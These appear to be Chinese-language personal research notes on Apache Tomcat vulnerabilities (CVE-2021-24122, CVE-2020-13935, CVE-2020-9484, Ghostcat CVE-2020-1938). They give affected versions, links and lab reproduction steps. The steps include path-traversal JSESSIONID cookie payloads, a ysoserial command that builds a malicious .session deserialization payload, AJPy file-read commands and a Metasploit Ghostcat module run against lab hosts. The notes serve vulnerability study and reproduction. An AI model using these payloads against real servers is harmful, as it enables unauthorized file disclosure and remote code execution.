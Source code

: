 ## Tomcat

安全公告：http://tomcat.apache.org/security.html
  http://tomcat.apache.org/security-7.html
  http://tomcat.apache.org/security-8.html
  http://tomcat.apache.org/security-9.html
  http://tomcat.apache.org/security-10.html

### Apache Tomcat 信息泄露漏洞 CVE-2021-24122 2020-11-11

影响：

Apache Tomcat 10.0.0-M1-10.0.0-M9

Apache Tomcat 9.0.0.M1-9.0.39

Apache Tomcat 8.5.0-8.5.59

Apache Tomcat 7.0.0-7.0.106

<https://fengchenzxc.github.io/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Web%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%BC%8F%E6%B4%9E/Apache/Apache%20Tomcat/Apache%20Tomcat%20%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E%20CVE-2021-24122/>

据官方描述，该漏洞由于Windows API（FindFirstFileW）与JRE API File.getCanonicalPath的一些意外行为所导致。

**当使用NTFS文件系统时，可以绕过一些安全限制，最终可导致如查看某些配置中JSP的源代码等危害。**

`getCanonicalPath()`

此路径方法返回绝对唯一的标准规范路径名。
此方法首先将此路径名转换为绝对形式，就像调用getAbsolutePath方法一样，然后以系统相关的方式将其映射到其唯一路径上。
也就是说如果路径中包含“.”或“..”等当前路径及上层路径表示法，则会从路径名中删除“.”和“..”使用真实路径代替。
另外比较重点的是 它还会解析软链接（在UNIX平台上）以及将驱动器号（在Microsoft Windows平台上），将它们转换为标准实际路径。
而 getCanonicalPath() 解析了软链接转换为实际路径导致漏洞的产生

### Tomcat websocket 拒绝服务漏洞利用代码披露（CVE-2020-13935）

条件：

1. 有ws功能，默认examples下面有
2. 版本小于 8.5.57 9.0.37 10.0.0-M7

危害： 服务器CPU百分百

https://github.com/RedTeamPentesting/CVE-2020-13935

### [APACHE TOMCAT SESSION 反序列化代码执行漏洞（CVE-2021-25329）通告](http://blog.nsfocus.net/cve-2021-25329/)

CVE-2020-9484 没有处理完

### Apache Tomcat Session 反序列化代码执行漏洞（CVE-2020-9484） (SCA:CVE-2020-9484)

1. 版本小于： 8.5.55/8.5.63 9.0.35/9.0.43 10.0.2

https://github.com/masahiro331/CVE-2020-9484
git clone https://github.com/masahiro331/CVE-2020-9484.git
docker build -t tomcat:CVE-2020-9484 .
docker run -d -p 8080:8080 tomcat:CVE-2020-9484

$ curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../usr/local/tomcat/groovy'

确认，在下面生成了 rce 文件
$ docker exec -it $CONTAINER /bin/sh
$ ls /tmp/rce

```bash
curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../usr/local/tomcat/groovy'
curl 'http://192.168.56.130:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../tmp/123.txt'
```

https://github.com/masahiro331/CVE-2020-9484
https://github.com/IdealDreamLast/CVE-2020-9484

https://y4er.com/post/cve-2020-9484-tomcat-session-rce/

条件：
1. 不是默认配置，需要手动增加Context.xml
2. 文件上传 文件后缀需要是.session
3. 需要知道绝对路径来跨目录

扩展攻击 ，如果用redisSession进行持久化也是可以的

TODO：由于官方不认这个漏洞，看看是不是现在版本还可以攻击？

Tomcat Remote Code Execution via session persistence 分析【CVE-2020-9484】
http://www.lmxspace.com/2020/05/21/Tomcat-Remote-Code-Execution-via-session-persistence-%E5%88%86%E6%9E%90%E3%80%90CVE-2020-9484%E3%80%91/#0x05%E5%90%8E%E8%AF%9D

是用来生成 .session shell payload的

https://github.com/frohoff/ysoserial

```bash
mvn clean package -DskipTests
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections2 "touch /tmp/9484" > /tmp/22222.session
```

扩展：

[Java Deserialization Exploitation With Customized Ysoserial Payloads](https://rhinosecuritylabs.com/research/java-deserializationusing-ysoserial)

[Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100)

https://y4er.com/post/cve-2020-9484-tomcat-session-rce/

生成payload的原理：

[Java 反序列化： 基于 CommonsCollections4 的 Gadget 分析](https://paper.seebug.org/786/)

[Java反序列化漏洞的一些gadget](https://milkfr.github.io/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/2019/08/22/analysis-java-deserialize-gadget-chain/)

这里是关于Tomcat默认不安全配置的session的另一个漏洞

tomcat使用了自带session同步功能时，不安全的配置（没有使用EncryptInterceptor）导致存在的反序列化漏洞，
通过精心构造的数据包， 可以对使用了tomcat自带session同步功能的服务器进行攻击。PS:这个不是CVE-2020-9484，9484是session持久化的洞，
这个是session集群同步的洞！

https://github.com/threedr3am/tomcat-cluster-session-sync-exp

[CVE-2020-9484 Tomcat-RCE漏洞分析报告](https://threedr3am.github.io/2020/06/12/CVE-2020-9484%20Tomcat-RCE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E6%8A%A5%E5%91%8A/)

[Tomcat Session(CVE-2020-9484)反序列化漏洞复现](https://www.freebuf.com/vuls/245232.html)

攻击者可以控制服务器上的文件名/文件内容；
服务器上配置使用了PersistenceManager的FileStore；
PersistenceManager配置了sessionAttributeValueClassNameFilter值为“NULL”或者其他宽松的过滤器，使得攻击者可以提供反序列化对象；
攻击者知道FileStore使用的存储位置到可控文件的相对路径。

### ghostcat Tomcat-AJP 文件读取与包含漏洞（CVE-2020-1938） (SCA:ACSV-2020-022001)

AJP Connector，它使用的是 AJP 协议（Apache Jserv Protocol）是定向包协议。
因为性能原因，使用二进制格式来传输可读性文本，它能降低 HTTP 请求的处理成本，因此主要在需要集群、反向代理的场景被使用。

条件：

1. 打开8009，8.5.50前默认是打开8009的
2. 版本小于 8.5.51 9.0.31

[POC1](https://github.com/hypn0s/AJPy) 这个工具只针对这个CVE

```bash
wget https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.50/bin/apache-tomcat-8.5.50.tar.gz
tar xzf *.gz
python tomcat.py version 192.168.56.130
```

必须打开 8009才能直接使用，这个是直接获取的请求
python tomcat.py read_file --webapp=examples /WEB-INF/web.xml 192.168.56.130

不能获得
python tomcat.py read_file --webapp=examples /tmp/123.txt 192.168.56.130

这个好像拿到的和原文件不同
python tomcat.py read_file --webapp=examples /jsp/sessions/carts.jsp 192.168.56.130
cat ~/tomcat/apache-tomcat-8.5.50/webapps/examples/jsp/sessions/carts.jsp  

如果没有账号和密码，这个也取不到
python tomcat.py read_file --webapp=manager /WEB-INF/jsp/connectorTrustedCerts.jsp 192.168.56.130

下面这个应该是拿不到的
conf/tomcat-users.xml

[一文详解Tomcat Ghostcat-AJP协议文件读取/文件包含漏洞CVE-2020-1938](https://zhuanlan.zhihu.com/p/137527937)

成功
```bash
sudo msfconsole
search tomcat
use auxiliary/admin/http/tomcat_ghostcat
SET RHOSTS 192.168.56.130
SET RPORT 8009
run
```

[Apache Tomcat - AJP 'Ghostcat File Read/Inclusion](https://www.exploit-db.com/exploits/48143)

[xray 长亭科技 tomcat ghostcat 扫描](https://www.chaitin.cn/zh/ghostcat)

[CVE-2020-1938：Apache Tomcat服务器任意文件读取/包含漏洞通告](https://www.anquanke.com/post/id/199351)

[CVE-2020-1938 : Tomcat-Ajp 协议漏洞分析](https://www.anquanke.com/post/id/199448)

```xml
<Connector port="8080" protocol="HTTP/1.1"
             connectionTimeout="20000"
             redirectPort="8443" />
<Connector port="8009" protocol="AJP/1.3" redirectPort="8443" />
```